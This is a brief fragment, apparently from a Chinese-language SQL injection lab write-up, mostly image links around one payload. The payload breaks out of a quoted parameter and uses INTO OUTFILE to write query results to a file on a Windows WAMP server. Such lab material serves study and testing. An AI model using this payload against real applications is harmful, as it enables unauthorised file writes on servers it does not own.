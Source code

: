 ![image](../img/f5446d6815dcff640dfb1e11f5305d59.png)

直接构造语句

```
1' into outfile 'c:\\wamp64\\tmp\\1.txt'  -- a 
```

![image](../img/ffaa25f14935f1a98574fc92f4c45899.png)
